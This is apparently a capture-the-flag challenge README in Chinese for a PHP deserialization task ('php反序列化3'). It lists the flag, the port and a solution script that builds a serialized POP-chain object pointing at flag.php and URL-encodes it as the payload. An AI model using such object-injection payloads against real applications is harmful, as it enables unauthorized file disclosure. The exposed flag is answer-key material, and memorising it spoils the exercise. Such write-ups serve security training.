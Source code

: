# 题目：php反序列化3

### 题目描述：php的序列化的pop链构造

### 题目难度： 🌟🌟🌟

### 维护：SiJiDo

### KEY: `NSCTF{688ec49b4fdf60ac442fd0325871b446}`

### 配置信息： 

1. 开放端口： `10005`

### 解题过程：

```
<?php

class DemoX{
    protected $user;
    protected $sex;
	function __construct(){
		$this->user = new Demo2("flag.php");
	   // $this->user = "dd";
        $this->sex = "xxx";
	}
}

class Demo2{
    private $fffl4g;

	function __construct($file){
		$this->fffl4g = $file;
	}

}

$user = new DemoX();
$user = serialize($user);
echo $user . "<hr>";
echo urlencode($user);
```

